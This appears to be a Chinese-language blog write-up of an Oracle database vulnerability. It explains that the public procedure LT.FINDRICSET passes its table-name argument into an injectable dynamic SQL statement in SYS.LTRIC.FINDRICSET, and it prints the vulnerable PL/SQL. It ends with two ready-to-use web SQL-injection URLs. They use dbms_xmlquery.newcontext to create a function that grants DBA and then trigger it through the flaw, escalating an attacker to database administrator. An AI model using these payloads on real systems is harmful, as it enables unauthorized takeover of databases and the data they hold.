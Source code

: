 由于 The 11.2.0.1 April CPU patch fixes this，我的 11g 就没有测试成功，至于这个 java.io 的权限有什么用，后面再说， 反正先刷到一个权限再说

LT.FINDRICSET  first to first，看一下这个漏洞过程的代码

```
PROCEDURE FINDRICSET( TABLE_NAME VARCHAR2, RESULT_TABLE VARCHAR2 DEFAULT '' )  
IS  
TABOWNER VARCHAR2(100);  
TABNAME VARCHAR2(100);  
RESOWNER VARCHAR2(100);  
RESNAME VARCHAR2(100);  
BEGIN  
SYS.LT_CTX_PKG.SETUSER ;

     TABOWNER := NVL(SUBSTR(UPPER(TABLE_NAME),1,INSTR(TABLE_NAME,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
     TABNAME  := SUBSTR(UPPER(TABLE_NAME),INSTR(TABLE_NAME,'.')+1);

     IF ( RESULT_TABLE IS NOT NULL ) THEN
        RESOWNER := NVL(SUBSTR(UPPER(RESULT_TABLE),1,INSTR(RESULT_TABLE,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
        RESNAME  := SUBSTR(UPPER(RESULT_TABLE),INSTR(RESULT_TABLE,'.')+1);
     END IF;

      IF ( RESULT_TABLE IS NOT NULL AND 
           NOT HASOUTPUTTABPRIVS( RESOWNER, RESNAME ) ) THEN
         SYS.WM_ERROR.RAISEERROR(SYS.LT.WM_ERROR_171_NO, 'insufficient privileges on the result table');
      END IF;

     SYS.LTRIC.FINDRICSET( TABOWNER, TABNAME, RESOWNER, RESNAME );

END; 
```

粗略看一下似乎没什么问题，可是这个函数又调用了 SYS.LTRIC.FINDRICSET,而 SYS.LTRIC.FINDRICSET 中存在注入，但是 SYS.LTRIC.FINDRICSET 是不能被 public 角色调用，LT.FINDRICSET 可以被 public 角色调用，所以归为 LT.FINDRICSET 漏洞，再让我们看一下 SYS.LTRIC.FINDRICSET 的代码

```
PROCEDURE FINDRICSET( IN_TABLE_OWNER VARCHAR2, IN_TABLE_NAME VARCHAR2,  
RESULT_TABLE_OWNER VARCHAR2, RESULT_TABLE VARCHAR2 )  
.....省略  
EXECUTE IMMEDIATE 'insert into wmsys.wm$ric_set_in values ( ''' || IN_TABLE_OWNER || ''',''' || IN_TABLE_NAME || ''' )'; 
```

我们看到了 IN_TABLE_NAME 和 IN_TABLE_OWNER 可以注入，但是 IN_TABLE_NAME 与 IN_TABLE_OWNER 都是由 LT.FINDRICSET 中的参数 TABLE_NAME 所产生，所以我们可以用 LT.FINDRICSET 的第一参来进行注入，尝试结合 dbms_xmlquery.newcontext(这样就无需 create procedure)，结果因为 字数限制而失败了,下面给出利用方法，需要有 create procedure 的权限

```
web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace function get_dba return varchar2 authid current_user is PRAGMA  
autonomous_transaction;BEGIN execute immediate ''''grant dba to hellove'''';commit;return ''''z'''';END; ''; commit; end;')  
from dual) is not null

web :http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA  
AUTONOMOUS_TRANSACTION;begin sys.lt.findricset(''A.A''''||hellove.get_dba)--'',''BBBB'');commit;end;') from dual) is not  
null 
```
